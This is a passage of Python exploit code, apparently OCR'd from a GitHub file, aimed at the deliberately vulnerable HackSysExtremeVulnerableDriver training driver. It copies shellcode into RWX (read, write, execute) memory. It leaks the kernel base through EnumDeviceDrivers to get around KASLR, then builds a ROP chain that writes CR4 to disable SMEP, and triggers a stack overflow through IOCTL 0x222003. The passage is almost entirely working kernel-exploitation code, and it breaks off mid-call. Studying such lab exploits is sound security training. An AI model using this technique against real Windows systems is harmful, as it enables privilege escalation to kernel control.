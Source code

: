 ```python
    c_int(0x40)                       # flProtect
)

# Creates a ctype variant of the payload (from_buffer)
c_type_buffer = (c_char * len(payload)).from_buffer(payload)

print "[+] Copying shellcode to newly allocated RWX region"
kernel32.RtlMoveMemory(
    c_int(ptr),                       # Destination (pointer)
    c_type_buffer,                    # Source (pointer)
    c_int(len(payload))               # Length
)

# Need kernel leak to bypass KASLR
# Using Windows API to enumerate base addresses
# We need kernel mode ROP gadgets

# c_ulonglong because of x64 size (unsigned __int64)
base = (c_ulonglong * 1024)()

print "[+] Calling EnumDeviceDrivers()..."

get_drivers = psapi.EnumDeviceDrivers(
    byref(base),                      # lpImageBase (array that receives list of addresses)
    sizeof(base),                     # cb (size of lpImageBase array, in bytes)
    byref(c_long())                   # lpcbNeeded (bytes returned in the array)
)

# Error handling if function fails
if not base:
    print "[+] EnumDeviceDrivers() function call failed!"
    sys.exit(-1)

# The first entry in the array with device drivers is ntoskrnl base address
kernel_address = base[0]

print "[+] Found kernel leak!"
print "[+] ntoskrnl.exe base address: {0}".format(hex(kernel_address))

# Offset to ret overwrite
input_buffer = "\x41" * 2056

# SMEP says goodbye
print "[+] Starting ROP chain. Goodbye SMEP..."
input_buffer += struct.pack('<Q', kernel_address + 0x3544)      # pop rcx; ret

print "[+] Flipped SMEP bit to 0 in RCX..."
input_buffer += struct.pack('<Q', 0x506f8)           		# Intended CR4 value

print "[+] Placed disabled SMEP value in CR4..."
input_buffer += struct.pack('<Q', kernel_address + 0x108552)    # mov cr4, rcx ; ret

print "[+] SMEP disabled!"
input_buffer += struct.pack('<Q', ptr)                          # Location of user mode shellcode

input_buffer_length = len(input_buffer)

# 0x222003 = IOCTL code that will jump to TriggerStackOverflow() function
# Getting handle to driver to return to DeviceIoControl() function
print "[+] Using CreateFileA() to obtain and return handle referencing the driver..."
handle = kernel32.CreateFileA(
    "\\\\.\\HackSysExtremeVulnerableDriver", # lpFileName
    0xC0000000,                         # dwDesiredAccess
```